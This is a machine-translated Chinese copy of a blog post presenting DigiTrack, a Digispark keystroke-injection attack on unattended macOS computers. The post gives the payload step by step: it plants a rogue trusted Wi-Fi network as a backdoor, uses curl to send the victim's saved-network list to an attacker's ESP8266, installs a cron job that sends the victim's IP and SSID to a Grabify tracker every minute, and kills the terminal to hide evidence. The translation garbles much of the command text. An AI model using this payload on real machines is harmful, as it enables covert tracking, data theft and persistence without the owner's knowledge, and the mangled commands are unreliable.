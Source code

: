 # DigiTrack:使用 Arduino 的 5 美元或更少的攻击

> 原文：<https://kalilinuxtutorials.com/digitrack/>

[![DigiTrack : Attacks For  or Less Using Arduino](img//e46645b55f05fcbc6bbbea9e0dcb5f46.png "DigiTrack : Attacks For  or Less Using Arduino")](https://1.bp.blogspot.com/-lVaLZKyWxYQ/Xosm6KwFBsI/AAAAAAAAF1U/9hL2r7HJNWsOc9G03kmudVvWokh8Dx4BQCLcBGAsYHQ/s1600/DigiTrack.png)

在 30 秒内， **DigiTrack** attack 可以学习一台 MacOS 电脑之前连接过哪些网络，每 60 秒植入一个跟踪当前 IP 地址和 Wi-Fi 网络的脚本。

它包括 hard tracker–Digispark VPN buster，可以每 60 秒钟将 MacOS 电脑上附近 Wi-Fi 网络的 IP 地址和 BSSID/SSID 发送到 Grabify 跟踪器。

**这是一次价值 5 美元的攻击，它做了几件事:**

*   在受害者计算机上插入 Wi-Fi 后门，允许您在 Wi-Fi 范围内的任何时候捕获受害者的数据连接。
*   窃取受害者曾经连接过的每个网络的列表(用于跟踪、分类和劫持数据连接)
*   插入一个跟踪作业，每 60 秒向 Grabify 链接发送一次 IP 地址和当前连接的网络。

**也可阅读-[CVE-2020-0796:Windows SMB v3 客户端/服务器远程代码执行漏洞](https://kalilinuxtutorials.com/cve-2020-0796/)**

**攻击过程:**受害者将一台 MacOS 电脑无人看管 30 秒。攻击者插入一个加载了攻击有效载荷的 DigiSpark 板。有效负载如下所示(删除了延迟和单次击键):

*   **digi keyboard . print(" network setup-setairport network en0 ' sneaker net ' 0000000 ")；**
    *   我们将网络“Sneakernet”添加到我们的可信网络列表中，并连接到它。
*   **digi keyboard . print(" curl-M10–silent–output/dev/null-X POST-H " Content-Type:text/plain–data " $(network setup-listpreferredwirelessnetworks en0)" 192 . 168 . 4 . 1&"；**
    *   连接后，我们向 esp8266 发送一个 CURL 请求，列出 MacOS 计算机过去连接过的每个网络，创建“Sneakernet”网络。&将这个过程放在后台，以防它花费太长时间，而-m 设置一个 10 秒的计时器来防止它花费太长时间。现在我们知道受害者加入了哪些 Wi-Fi 网络，哪些网络会在没有询问的情况下强制电脑连接。
*   **digi keyboard . print(" export VISUAL = nano；crontab-e”)；**
    *   我们创建一个每 60 秒执行一次的作业
*   **digi keyboard . print(" * * * * * * curl–silent–output/dev/null–referer " $(/System/Library/private frameworks/apple 80211 . framework/Versions/Current/Resources/airport-I | awk '/SSID/{ print substr $ 0，index $ 0，$ 2))} ')"[https://grabi/your link](https://grabi/YOURLINK)"；**
    *   我们抑制 CURL 的输出，抓取当前连接的 Wi-Fi 网络的网络名称。我们将它和 CURL 请求一起发送到一个跟踪 URL，每 60 秒发送一次目标的 IP 地址和当前连接的 Wi-Fi 网络。
*   **DigiKeyboard.print("等等&kill-9 $(PS-p $ PPID-o ppid =)")；**
    *   最后，我们等待所有后台进程完成，并杀死终端窗口的狗屎隐藏证据。

总运行时间约为 30 秒，不包括 Digisparks 等待草图上传的几秒钟。

注意: Grabify 可能会进入“我受到攻击”模式，并且不允许签入。寻找这一行:div class = " cf-browser-verification cf-im-under-attack "

如果您看到它，则该 IP 地址被 cloudflare 阻止。

[**Download**](https://github.com/skickar/DigiTrack)